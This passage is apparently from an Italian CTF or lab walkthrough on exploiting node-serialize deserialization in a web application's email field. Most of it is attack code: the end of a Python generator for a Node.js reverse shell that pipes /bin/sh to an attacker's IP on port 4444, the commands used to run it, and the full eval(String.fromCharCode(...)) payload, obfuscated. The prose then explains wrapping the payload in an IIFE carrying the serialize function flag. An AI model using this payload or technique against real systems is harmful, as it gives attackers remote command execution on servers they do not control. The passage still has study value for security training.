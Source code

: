 ```
        var sh = spawn('/bin/sh',[]);
        client.write("Connected!\\n");
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
        sh.on('exit',function(code,signal){
          client.end("Disconnected!\\n");
        });
    });
    client.on('error', function(e) {
        setTimeout(c(HOST,PORT), TIMEOUT);
    });
}
c(HOST,PORT);
''' % (IP_ADDR, PORT)
print "[+] Encoding"
PAYLOAD = charencode(NODEJS_REV_SHELL)
print "eval(String.fromCharCode(%s))" % (PAYLOAD)
```

```
./nodejsshell.py ATTACK-IP 4444
```

```
python2 nodejsshell.py 10.14.99.134 4444
```
```
[+] LHOST = 10.14.99.134
[+] LPORT = 4444
[+] Encoding
eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,48,46,49,52,46,57,57,46,49,51,52,34,59,10,80,79,82,84,61,34,52,52,52,52,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))
```
Ora potremmo pensare di poter racchiudere questa reverse shell in un IIFE e copiarlo nel campo email dell'app web. Questo non funziona, e l'articolo spiega perché: il metodo unserialize() esegue le IIFE solo se le riconosce come funzioni serializzate dal metodo "serialize()" di node-serialize.
Rubiamo il flag usato da serialize() per indicare una funzione. 
Dopo aver aggiunto questo flag alla nostra reverse shell con IIFE, il nostro script di exploit dovrebbe apparire più o meno così:
